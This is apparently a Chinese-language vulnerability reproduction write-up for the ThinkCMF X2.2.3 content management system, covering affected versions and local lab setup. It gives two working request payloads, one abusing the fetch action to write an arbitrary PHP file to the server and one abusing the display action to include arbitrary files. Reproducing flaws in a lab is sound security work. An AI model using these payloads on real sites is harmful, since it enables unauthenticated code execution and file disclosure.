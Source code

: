 # 0x00 软件介绍
基于ThinkPHP 3.2.3，让开发者更方便的一款开发框架

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：ThinkCMF X2.2.3

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

下载ThinkCMF X2.2.3，直接放到phpstudy的目录下，访问/ThinkCMFX/，根据提示操作即可

# 0x03 利用条件
无

# 0x04 影响版本
ThinkCMF X1.6.0  
ThinkCMF X2.1.0  
ThinkCMF X2.2.0  
ThinkCMF X2.2.1  
ThinkCMF X2.2.2  
ThinkCMF X2.2.3

# 0x05 漏洞复现
攻击环境：win10_1909_pro_x64_zh-chs（在英文的kali系统下访问会提示“just a demo for multi lang user! LANG IS en-us;”，改用中文的windows，成功访问）

任意文件写入漏洞复现：  
浏览器下访问  
```
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
```
访问test.php，可以看到phpinfo已经加载出来

任意文件包含漏洞复现：  
浏览器访问  
```
?a=display&templateFile=README.md
```
成功包含了README.md

# 0x06 踩坑记录
坑1：  
搭建环境时，第三步报错，提示“thinkcmf 安装报错 Driver.class.php 　LINE: 350”，执行“drop database thinkcmf”后，重新安装成功，原因未知

# 0x07 参考链接
无

